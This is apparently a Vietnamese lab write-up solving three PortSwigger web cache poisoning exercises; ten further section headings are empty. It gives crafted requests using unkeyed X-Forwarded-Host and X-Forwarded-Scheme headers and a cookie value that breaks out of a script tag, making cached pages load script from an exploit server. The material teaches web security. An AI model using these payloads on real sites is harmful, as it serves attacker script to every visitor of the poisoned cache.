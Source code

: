 # 1. Web cache poisoning with an unkeyed header
Nhận thấy `Host` HTTP header được reflected trong đoạn tracker script:

```
<script type="text/javascript" src="//0a67006403f76056c172df6000b30077.web-security-academy.net/resources/js/tracking.js"></script>
```
Thử thêm header `X-Forwarded-Host: abc.com` thì thấy đoạn script trở thành:
```
<script type="text/javascript" src="//abc.com/resources/js/tracking.js"></script>
```
Và server sẽ lưu cache trong thời gian 30s. Như vậy, để thực thi đoạn script `alert(document.cookie)`, ta vào exploit server và cấu hình đoạn body `alert(document.cookie)`, với header `Content-Type: application/javascript`, sau đó để path là `/resources/js/tracking.js`.

Submit request với header `X-Forwarded-Host: https://exploit-0aa1003b03e760a1c112deb4012a0067.exploit-server.net` cho đến khi kết quả được reflected trong response (khi cache hết hạn). Kết quả thành công.

# 2. Web cache poisoning with an unkeyed cookie
Website có cookie "fehost=prod-cache-01", được reflected trong response như sau:
```
<script>
    data = {
        "host":"0a6b00a5031f6272c0c895f1009600fe.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

Thử thay đổi `cookie=prod-cache-01"</script>`, submit đến khi response mới được lưu vào cache. Nhận thấy dấu nháy kép và dấu đóng mở tag được cho phép, khiến ta có thể escape javascript string và script tag.

Bắt request với Burp Repeater, thử thay đổi `cookie=prod-cache-01"}</script><script>alert(1)</script>` rồi đợi đến khi cache hết hạn và submit. Kết quả bài lab được giải.

# 3. Web cache poisoning with multiple headers
Nhận thấy khi thêm header `X-Forwarded-Scheme: http`, server sẽ trả về response như sau:
```
HTTP/1.1 302 Found
Location: https://0a64003d036f1d8cc00df4bd002f00b9.web-security-academy.net/
...
```
Như vậy server tự động redirect tới URL sử dụng protocol https. Thử thêm header `X-Forwarded-Host: abc.com`, thì header Location trở thành: `Location: https://abc.com`. Đồng thời, ta thấy 2 header `X-Forwarded-Host` và `X-Forwarded-Scheme` là unkeyed header đối với cache.

Vào exploit server, cấu hình đoạn javascript và đặt path là `/resources/js/tracking.js`. Sau đó dùng Burp Repeater cấu hình request với header:
```
GET /resources/js/tracking.js HTTP/1.1
Host: 0a64003d036f1d8cc00df4bd002f00b9.web-security-academy.net
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a4f008b03de1df6c0b5f3c5017d0029.exploit-server.net
....
```
Khi đó response thu được là:
```
HTTP/1.1 302 Found
Location: https://exploit-0a4f008b03de1df6c0b5f3c5017d0029.exploit-server.net/resources/js/tracking.js
....
```
Khi browser của nạn nhân load file `/resources/js/tracking.js`, thì file tracking.js trong exploit server (thực thi lệnh alert) sẽ được load thay vì file tracking.js của server chứa lỗ hổng. Thực hiện gửi request đến khi response được lưu vào cache. Bài lab được giải thành công.

# 4. Targeted web cache poisoning using an unknown header

# 5. Web cache poisoning via an unkeyed query string

# 6. Web cache poisoning via an unkeyed query parameter

# 7. Parameter cloaking

# 8. Web cache poisoning via a fat GET request

# 9. URL normalization

# 10. Web cache poisoning to exploit a DOM vulnerability via a cache with strict cacheability criteria

# 11. Combining web cache poisoning vulnerabilities

# 12. Cache key injection

# 13. Internal cache poisoning

